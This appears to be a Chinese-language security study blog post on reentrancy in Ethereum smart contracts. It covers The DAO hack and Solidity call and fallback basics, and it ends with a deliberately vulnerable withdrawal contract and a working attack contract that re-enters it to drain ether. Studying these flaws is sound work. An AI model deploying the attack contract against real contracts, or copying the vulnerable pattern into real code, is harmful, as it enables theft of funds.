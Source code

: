 # #DASP# Reentrancy (1)


## 0x00 Info

从本篇开始学习智能合约漏洞，依据[DASP TOP10](https://www.dasp.co)。

<!-- more -->

## 0x01 DAO

**History**:  
* [The History of the DAO](https://blog.slock.it/the-history-of-the-dao-and-lessons-learned-d06740f8cfa5)

**WhitePaper**:  
* [WhitePaper](https://download.slock.it/public/DAO/WhitePaper.pdf)
* [白皮书](https://ethfans.org/posts/the-dao-whitepaper)

**OpenSource**:  
* [Github](https://github.com/slockit/dao)
* [etherscan](https://etherscan.io/address/0xbb9bc244d798123fde783fcc1c72d3bb8c189413#code)

### 概念理解

众筹合约，通过资金ETH换取DAO token，从而获得投票和发起议案的权利，按一定规则回馈给投资人投资项目的收益。
因此，The DAO特点：
* 本质是个VC，通过以太坊筹集的资金（ETH）锁定在智能合约中，通过**代码**主导！
* 出资ETH获取对应DAO代币，具有审查项目、投票表决和提出投资项目议案的权利
* 投资议案由全体代币持有人投票表决，一币一票，票数通过，投资项目可获得相应投资额。利用“众智”+出资额权重决定投资策略（取代传统行业投资经理）。
* 投资项目的收益按规则回馈股东。

### The DAO is attacked

[the-dao-the-hack-the-soft-fork-and-the-hard-fork](https://www.cryptocompare.com/coins/guides/the-dao-the-hack-the-soft-fork-and-the-hard-fork/)

```txt
+------------------------+  3.5M ETH lose   +-----------+  DoS vul   +-----------+
| antipattern (withdrew) | ---------------> | soft fork | ---------> | hard fork |
+------------------------+                  +-----------+            +-----------+
```

{{< mermaid >}}
graph LR;
    A(antipattern (withdrew)) -->|3.5M ETH lose| B(soft fork)
    B -->|DoS vul| C(hard fork)
{{< /mermaid >}}

[security-alert-dos-vulnerability-in-the-soft-fork](https://blog.ethereum.org/2016/06/28/security-alert-dos-vulnerability-in-the-soft-fork/)

## 0x02 Reentrancy

### solidity基础知识

**合约调用**

1. message call
```solidity
bytes4 funcIdentifier = bytes4(keccak256("FuncName(paramType)"));
this.call(funcIdentifier, paramValue);
```

2. contract object
```solidity
Contract1 c = Contract1(AddressOfContract1);  
c.foo();
```

**限制**

  * 例如send花费2300gas
  * 递归调用栈最大1024层

**转币**

```solidity
1. <address>.transfer()    //失败抛出throw且回滚，2300gas
2. <address>.send()    //失败返回false，2300gas
3. <address>.gas().call.vale()()    //失败返回false，所有gas
```

**fallback**

[Solidity的fallback函数](http://me.tryblockchain.org/blockchain-solidity-fallback.html)

```solidity
contract SimpleFallback{
  function(){
    //fallback function
  }
}
```

两种情况会调用fallback：
1. 调用函数找不到时
2. 向合约发送ether时


### reentrancy & The DAO

DASP TOP10中reentrancy的描述：[dasp](https://www.dasp.co/#item-1)

reentrancy原型为[Race-To-Empty](https://vessenes.com/more-ethereum-attacks-race-to-empty-is-the-real-deal/)，其中就已经介绍了**重置资产**放在**转币**操作后的漏洞。

其中最典型的攻击案例为The DAO。对于The DAO的漏洞分析及利用exp & demo网上一大堆，这里就不ctrlcv了。
> 建议结合源码一起看，并使用本地（truffle+testrpc or geth testnet）或者在线的remix编译环境上手实践。

可以首先看看中文分析：
* [区块链安全 - DAO攻击事件解析](https://paper.seebug.org/544/)
* [以太坊智能合约安全入门](https://paper.seebug.org/601/)

推荐Phil Daian分析：
* [Analysis of the DAO exploit](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/)

{{< admonition quote >}}
attack steps:
  1. Propose a split and wait until the voting period expires. (DAO.sol, createProposal)
  2. Execute the split. (DAO.sol, splitDAO)
  3. Let the DAO send your new DAO its share of tokens. (splitDAO -> TokenCreation.sol, createTokenProxy)
  4. Make sure the DAO tries to send you a reward before it updates your balance but after doing (3). (splitDAO -> withdrawRewardFor -> ManagedAccount.sol, payOut)
  5. While the DAO is doing (4), have it run splitDAO again with the same parameters as in (2) (payOut -> _recipient.call.value -> _recipient())
  6. The DAO will now send you more child tokens, and go to withdraw your reward before updating your balance. (DAO.sol, splitDAO)
  7. Back to (5)!
  8. Let the DAO update your balance. Because (7) goes back to (5), it never actually will :-).
{{< /admonition >}}

其中最关键的就是第4步，splitDAO -> withdrawRewardFor -> payOut，其中payOut使用_recipient.call.value(_amount)()转币，而splitDAO函数中资产重置是放在withdrawRewardFor函数后，造成漏洞。

demo & exp：
* [SimpleDAO attack](http://blockchain.unica.it/projects/ethereum-survey/attacks.html#simpledao)
* [reentrancy exp](https://github.com/trailofbits/not-so-smart-contracts/tree/master/reentrancy)

其他合约中的reentrancy漏洞：[CityMayor](https://blog.citymayor.co/posts/how-someone-tried-to-exploit-a-flaw-in-our-smart-contract-and-steal-all-of-its-ether/)

{{< admonition note >}}
特别注意此篇中的分析思路及工具[porosity](https://github.com/comaeio/porosity)/[etherscan](https://etherscan.io/)
{{< /admonition >}}

---

**漏洞合约：**
```solidity
contract vulnerable_DAO{
    mapping(address=>uint) userBalances;
    
    function vulnerable_DAO() payable {
    }
    
    function getUserBalance(address user) constant returns(uint) {
        return userBalances[user];
    }
    
    function addToBalance() payable {
        userBalances[msg.sender] += msg.value;
    }
    
    function withdrawBalance() {
        uint amountToWithdraw = userBalances[msg.sender];
        if(msg.sender.call.value(amountToWithdraw)() ==false) {
            throw;
        }
        userBalances[msg.sender] = 0;
    }
    
    function getBalance() returns(uint) {
        return this.balance;
    }
}
```

**攻击利用合约：**
```solidity
contract Attack {
    address vulnerable_contract;
    uint attackCount;
    address public owner;
    
    function Attack() public{
        attackCount = 2;
        owner = msg.sender;
    }
    
    function() payable{
        while(attackCount>0) {
            attackCount--;
            require(vulnerable_contract.call(bytes4(keccak256("withdrawBalance()"))));
        }
    }
    
    function deposit(address _vulnerable_contract) public payable{
        vulnerable_contract = _vulnerable_contract;
        require(vulnerable_contract.call.value(msg.value)(bytes4(keccak256("addToBalance()"))));
    }
    
    function withdraw(){
        require(vulnerable_contract.call(bytes4(keccak256("withdrawBalance()"))));
    }
    
    function getBalance() returns(uint) {
        return this.balance;
    }
}
```
